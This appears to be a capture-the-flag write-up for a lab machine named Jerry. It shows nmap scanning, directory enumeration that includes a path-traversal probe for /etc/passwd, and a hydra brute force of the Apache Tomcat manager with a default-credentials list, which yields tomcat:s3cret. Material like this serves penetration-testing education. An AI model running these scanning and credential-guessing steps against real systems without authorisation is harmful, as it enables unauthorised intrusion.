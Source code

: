 ## ---------------->> Jerry <<--------------

// We will start with nmap scan 

    $ nmap -sV -A -Pn -T4 10.10.10.95 -p-
-------

    Nmap scan report for 10.10.10.95
    Host is up (0.19s latency).
    Not shown: 65534 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-server-header: Apache-Coyote/1.1
    |_http-title: Apache Tomcat/7.0.88
    
// Navigating to http://10.10.10.95:8080/ 

![Image 1]()

// Searching for interesting directories with [dirsearch](https://github.com/maurosoria/dirsearch)(By maurosoria)

    $ python3 dirsearch.py -u http://10.10.10.95:8080/ -t 100
------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.10.95/_21-08-13_13-30-26.txt

    Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-13_13-30-26.log

    Target: http://10.10.10.95:8080/

    [13:30:27] Starting: 
    [13:30:53] 400 -    0B  - /\..\..\..\..\..\..\..\..\..\etc\passwd[13:30:54] 400 -    0B  - /a%5c.aspx
    [13:31:20] 302 -    0B  - /docs  ->  /docs/
    [13:31:22] 200 -   19KB - /docs/
    [13:31:23] 302 -    0B  - /examples  ->  /examples/
    [13:31:23] 200 -    1KB - /examples/
    [13:31:23] 200 -    7KB - /examples/servlets/index.html
    [13:31:24] 200 -  637B  - /examples/servlets/servlet/CookieExample
    [13:31:24] 200 -  947B  - /examples/servlets/servlet/RequestHeaderExample
    [13:31:24] 200 -   21KB - /favicon.ico
    [13:31:25] 200 -  722B  - /examples/jsp/snp/snoop.jsp
    [13:31:27] 401 -    2KB - /host-manager/html
    [13:31:27] 302 -    0B  - /host-manager/  ->  /host-manager/html
    [13:31:29] 200 -   11KB - /index.jsp
    [13:31:33] 302 -    0B  - /manager  ->  /manager/
    [13:31:33] 401 -    2KB - /manager/status/all
    [13:31:34] 401 -    2KB - /manager/html
    [13:31:34] 302 -    0B  - /manager/  ->  /manager/html
    [13:31:34] 401 -    2KB - /manager/html/

    Task Completed

// Lets focus on /manager/

// Navigating to http://10.10.10.95:8080/manager/ gets us a login pop up lets try admin : admin

![Image 2]()

// Its redirect us to http://10.10.10.95:8080/manager/html 'ACCESS DENIED' html page

![Image 3]()

// Found a tomcat [list](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt) 

// now we can use [hydra](https://secnhack.in/hydra-a-brute-forcing-tool/) for brute force the login(Also can be done with BurpSuite Intruder)

    $ hydra -C tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
--------

    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-13 13:52:14
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
    [DATA] attacking http-get://10.10.10.95:8080/manager/html
    [8080][http-get] host: 10.10.10.95   login: admin   password: admin
    [8080][http-get] host: 10.10.10.95   login: admin   password: admin
    [8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
    [8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
    1 of 1 target successfully completed, 4 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-13 13:52:20

// We can see its default credentials login: tomcat : s3cret








